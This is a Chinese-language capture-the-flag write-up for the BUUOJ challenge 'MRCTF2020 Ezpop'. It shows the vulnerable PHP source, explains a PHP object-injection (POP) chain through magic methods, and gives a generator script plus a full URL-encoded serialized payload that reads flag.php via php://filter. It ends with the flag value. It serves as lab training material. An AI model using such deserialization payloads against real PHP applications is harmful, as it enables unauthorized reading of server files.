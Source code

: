 # [MRCTF2020]Ezpop

[题目地址](https://buuoj.cn/challenges#[MRCTF2020]Ezpop)

这题有点难受。

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

这题看着这么多类，其实静下心来分析一下就能出来了，加上[官方文档](https://www.php.net/manual/zh/language.oop5.magic.php)更不是问题了。要读取flag.php，肯定要通过Modifier里的append函数中的include来包含文件。append函数在__invoke中调用，`__invoke`当尝试以调用函数的方式调用一个对象时被自动调用，哪里把一个变量当成函数调用了呢？Test的`__get`，`$this->p`不确定，我们能将其设为Modifier，然后调用`__get`。当尝试读取不可访问（protected 或 private）或不存在的属性的值时，__get() 会被调用。这里没那么明显，但是就剩下个Show类没有用了，还能在哪里呢？

Show类的`__toString`中尝试获取`$this->str->source;`，跟Test的`__get`情况差不多，`$this->str`虽然确定了，但是str->source可没有。如果我们把str设置为Test——没有source属性的类——就能调用到Test的`__get`了。最后一步，`__toString`方法用于一个类被当成字符串时应怎样回应。通俗来讲，就是把一个类用作字符串时该返回什么。哪里有把类用作字符串的嫌疑？Show的`__construct`里的`echo 'Welcome to '.$this->source."<br>";`。如果`$this->source`还是Show本身，就会调用`__toString`了。写成PHP：

```php
<?php
//And Crack It!
class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
    public function append($value){
        echo $value;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
$show=new Show('a');
$show->str=new Test();
$show->str->p=new Modifier();
$show2=new Show($show);
echo urlencode(serialize($show2));
```

这时候问题就来了，我天真的以为这个没问题，结果还是有问题。最后的echo根本就出不来字符串，前面直接报错：

- Recoverable fatal error:  Method Show::__toString() must return a string value in /home/main.php on line 18

不懂了。去看[wp](https://blog.csdn.net/qq_45555226/article/details/109808474)，不是我们思路差不多啊，怎么我就出不来呢？不管了，总之payload：

- http://8c996b67-0213-4d86-bc6e-8b0e797b8435.node4.buuoj.cn:81/?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A4%3A%22chen%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D

得到的结果base64解码就是flag。

## Flag
> flag{2a5f9d9c-336c-418d-9676-75f95efe97d8}